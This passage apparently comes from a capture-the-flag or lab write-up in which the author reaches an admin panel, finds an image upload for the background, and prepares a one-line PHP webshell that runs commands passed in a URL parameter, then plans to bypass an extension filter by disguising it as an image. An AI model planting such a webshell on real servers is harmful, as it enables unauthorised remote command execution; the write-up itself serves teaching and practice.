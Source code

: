 ![Pasted image 20250511232251](MediaFiles/Pasted%20image%2020250511232251.png)

Great! we got progress here, we managed to reach the admin panel, right here, we see that file upload is possible, and this means only one thing -> SHELL

Right here, it seems to let you change the background image by uploading a picture

So our goal now is to upload a file, that will give us a shell, this can be achieved by webshell and specifically a php one. Here is a simple php webshell that we could use:
```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```
we then choose file, and then upload, BUT we get the following message:
![Pasted image 20250511232754](MediaFiles/Pasted%20image%2020250511232754.png)
hm.. interesting, this means that we can only upload files with these extensions, so we must find a way to pass the webshell as an image
